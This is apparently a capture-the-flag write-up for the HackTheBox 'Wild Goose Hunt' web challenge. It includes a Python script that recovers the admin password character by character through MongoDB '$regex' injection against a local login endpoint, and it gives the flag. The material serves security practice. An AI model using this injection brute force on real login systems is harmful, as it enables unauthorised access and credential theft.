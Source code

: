 ```yaml
---
name: Wild Goose Hunt (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Wild Goose Hunt (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wild Goose Hunt

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=1680s "HTB Cyber Apocalypse CTF 2021: Wild Goose Hunt")

## Challenge Description

> Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

## Solution

```py
import requests
import string

flag = "CHTB{"
url = "http://127.0.0.1:1337/api/login"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Characters like *, ., &, and + has to be avoided because we use regex
    for i in "_" + string.ascii_lowercase + string.digits + "!#$%^()@{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)
        # Correct char results in "successful password"
        if 'Successful' in r.text:
            print(payload)
            restart = True
            flag = payload
            # Exit if "}" gives a valid redirect
            if i == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```

Flag: `CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`

